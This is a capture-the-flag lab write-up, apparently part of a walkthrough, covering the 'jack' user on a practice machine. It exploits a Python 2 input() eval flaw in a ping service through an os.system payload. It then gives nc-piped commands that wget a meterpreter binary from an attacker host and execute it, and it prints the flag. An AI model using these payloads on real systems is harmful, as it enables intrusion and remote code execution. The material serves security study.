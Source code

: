 # jack

So let's start with the service on port 10000. The script asks the user to enter a number of packets to send and executes a ping:
```
root@kali:~/basement# nc 192.168.56.101 10000
 Please enther number of packets: 1

PING localhost (127.0.0.1) 56(84) bytes of data
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.053 ms
```

When entering something different we can see there is a python script which takes user input through the `input` method.

```
root@kali:~/basement# nc 192.168.56.101 10000
 Please enther number of packets: help
Traceback (most recent call last):
  File "./ping.py", line 3, in <module>
    num_packets = int(input(' Please enther number of packets: '))
TypeError: int() argument must be a string or a number, not '_Helper'
```

In python 2 the `ìnput` method is the same as `eval(raw_input())` so it's possible to evaluate python statements (In python 3 `input` behaves the same as `raw_input`).

So by trying the payload `__import__('os').system('id')` we can see the user running this script:
```
root@kali:~/basement# nc 192.168.56.101 10000
 Please enther number of packets: __import__('os').system('id')
uid=1000(jack) gid=1000(jack) groups=1000(jack),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)

PING localhost (127.0.0.1) 56(84) bytes of data
```

So the next step is to download a meterpreter binary and execute it with the following set of commands:
```
echo "__import__('os').system('wget -O /tmp/meterpreter http://192.168.56.3/meterpreter')" | nc 192.168.56.101 10000
echo "__import__('os').system('chmod +x /tmp/meterpreter')" | nc 192.168.56.101 10000
echo "__import__('os').system('/tmp/meterpreter &')" | nc 192.168.56.101 10000
```

Using the meterpreter session we are able to get the first flag:
```
meterpreter > cat flag.txt
flag{j4cks_t0t4L_l4cK_0f_$uRpr1sE}
```

# marla
